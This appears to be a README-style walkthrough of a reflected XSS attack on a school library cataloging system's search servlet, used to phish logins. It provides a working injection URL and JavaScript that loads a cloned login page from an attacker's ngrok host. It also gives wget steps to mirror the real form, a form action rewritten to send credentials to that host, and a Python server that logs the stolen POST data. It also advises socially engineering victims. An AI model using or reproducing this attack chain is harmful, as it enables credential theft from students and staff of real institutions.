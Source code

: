 ﻿## Reflected XSS Injection

Firstly, make sure your school ID has been set to the school that contains the search functions. It is in your cookie. You can socially engineer your victim to click on the proper school first anyways.

Reflected XSS - VERSION > 20.0_1
```
https://site.com/cataloging/servlet/handlewpesearchform.do?spotlightID=&themeID=&searchString=twode%3c%2ftitle%3e%3cscript%3ealert("Reflected XSS :)")%3c%2fscript%3eaaaaa&SearchWPE.x=0&SearchWPE.y=0
```

Now you will need to host your remote JS file. In this case, I will be replicating the login form so it displays that instead of the contents on the page.

```javascript
document.addEventListener("DOMContentLoaded", function() {
//hide first body - stops browser from flashing
const body = document.body;
body.style.display = 'none';  

// this was super hacky work around as multiple IDs shouldn't exist.
function hideFirstElementWithId(id) {
    var elements = document.querySelectorAll(`#${id}`);
    if (elements.length = 0) {
        elements[0].style.display = 'none';
    }
}


var request = new XMLHttpRequest();

// Open a new connection, using the GET request on the URL endpoint
request.open('GET', 'https://xxxxxx.ngrok.app/login.html', true);

request.onload = function() {
  var data = this.response;
  var div = document.createElement('div');
  div.innerHTML = data;
  body.appendChild(div);
  body.style.display = 'block';
  hideFirstElementWithId('masterHeaderTable');
  hideFirstElementWithId('masterTable');
}

// Send request
request.send();
});
```

Login html will be the login form, let's go ahead and replicate it.

```javascript
wget --mirror            \
     --no-cookies        \
     --header  "Cookie: siteIDCookie=0; JSESSIONID=XXXX.destiny"     \
     --convert-links     \
     --wait=2            \
     -o log              \
     https://victim.com/common/servlet/presentloginform.do
```

Now that we have the presentloginform.do. Rename it to login.html and then change the HTML login form and point it to our ngrok instance.

```angular2html
<form name="common_servlet_LoginForm" method="post" action="https://XXXXX.ngrok.app/login.html/fetch.html" onsubmit="return submitInterceptor_0();">
```

Please make sure the above has the correct Interceptor ID at the end. It will be on the page.

Now we will want to serve the files.

```angular2html
ngrok http 9999
```

```python
#!/usr/bin/env python3
from http.server import HTTPServer, SimpleHTTPRequestHandler, test
import sys

class CORSRequestHandler (SimpleHTTPRequestHandler):
    def end_headers (self):
        self.send_header('Access-Control-Allow-Origin', '*')
        SimpleHTTPRequestHandler.end_headers(self)
    def do_POST(self):
        content_length = int(self.headers['Content-Length'])
        post_data = self.rfile.read(content_length).decode('utf-8')
        # Log the post_data or perform any other desired actions
        print("Received POST data:", post_data)
        self.send_response(200)
        self.send_header('Content-type','text/html')
        self.end_headers()

if __name__ == '__main__':
    test(CORSRequestHandler, HTTPServer, port=int(sys.argv[1]) if len(sys.argv) > 1 else 9999)
```

Start the custom python listener as provided.

``` 
https://victim.com/cataloging/servlet/handlewpesearchform.do?spotlightID=&themeID=&searchString=twode%3c%2ftitle%3e%3cscript src="https://xxxxx.ngrok.app/xss.js"%3eeaaaaa&SearchWPE.x=0&SearchWPE.y=0
```

Provided the victim has the proper school ID in their cookie, a login form will be presented instead of the intended page.

